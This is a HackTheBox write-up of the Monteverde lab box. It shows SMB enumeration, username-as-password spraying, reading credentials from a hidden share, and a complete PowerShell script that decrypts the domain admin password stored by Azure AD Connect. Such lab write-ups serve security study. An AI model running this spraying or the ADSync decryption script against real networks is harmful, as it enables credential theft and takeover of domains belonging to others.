# Monteverde -- HackTheBox (write-up)

**Difficulty:** Medium
**Box:** Monteverde (HackTheBox)
**Author:** dkrxhn
**Date:** 2024-07-06

---

## TL;DR

### Found a user with username-as-password via password spraying, discovered Azure AD Connect credentials in an SMB share, then used an Azure AD Sync exploit to decrypt the domain admin password.

---

## Target info

- Domain: `megabank.local`

---

## Enumeration

Nmap:



```bash
nxc smb 10.129.120.190 -u '' -p '' --users
```



- Access denied to shares.

```bash
enum4linux -a -u "" -p "" 10.129.120.190
```



All usernames valid but no AS-REP roast:



---

## Password spraying

```bash
nxc smb 10.129.120.190 -u users.txt -p users.txt --no-bruteforce --continue-on-success
```



- `SABatchJobs:SABatchJobs`

---

## SMB enumeration

```bash
nxc smb 10.129.120.190 -u 'SABatchJobs' -p 'SABatchJobs' --shares
```



```bash
nxc smb 10.129.120.190 -u 'SABatchJobs' -p 'SABatchJobs' -M spider_plus && cat /tmp/nxc_spider_plus/10.129.120.190.json
```





- Missing `users$` as a readable share (must be filtered by spider_plus).

```bash
smbclient \\\\10.129.120.190\\users$ -U megabank.local/SABatchJobs
```





- `mhope:4n0therD4y@n0th3r$`

---

## BloodHound & Azure AD Sync

BloodHound:



- `mhope` is a member of `Azure Admins` group, which has GenericAll privs on the Domain Admin.

Used a script to exploit Azure AD Sync -- extracts encryption keys from the ADSync database, retrieves the encrypted config, then decrypts the domain admin password:

```powershell
$client = new-object System.Data.SqlClient.SqlConnection -ArgumentList "Server=127.0.0.1;Database=ADSync;Integrated Security=True"
$client.Open()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT keyset_id, instance_id, entropy FROM mms_server_configuration"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$key_id = $reader.GetInt32(0)
$instance_id = $reader.GetGuid(1)
$entropy = $reader.GetGuid(2)
$reader.Close()
$cmd = $client.CreateCommand()
$cmd.CommandText = "SELECT private_configuration_xml, encrypted_configuration FROM mms_management_agent WHERE ma_type = 'AD'"
$reader = $cmd.ExecuteReader()
$reader.Read() | Out-Null
$config = $reader.GetString(0)
$crypted = $reader.GetString(1)
$reader.Close()
add-type -path 'C:\Program Files\Microsoft Azure AD Sync\Bin\mcrypt.dll'
$km = New-Object -TypeName Microsoft.DirectoryServices.MetadirectoryServices.Cryptography.KeyManager
$km.LoadKeySet($entropy, $instance_id, $key_id)
$key = $null
$km.GetActiveCredentialKey([ref]$key)
$key2 = $null
$km.GetKey(1, [ref]$key2)
$decrypted = $null
$key2.DecryptBase64ToString($crypted, [ref]$decrypted)
$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerXML}}
Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
```

Uploaded to evil-winrm and ran:



- `administrator:d0m@in4dminyeah!`

---

## Lessons & takeaways

- Username-as-password is a real thing -- always spray `users.txt` against itself with `--no-bruteforce`
- `spider_plus` can miss hidden shares like `users$` -- use `smbclient` to check manually
- Azure AD Connect stores encrypted domain admin credentials that can be decrypted if you have access to the ADSync database
- Members of Azure Admins groups often have a direct path to Domain Admin
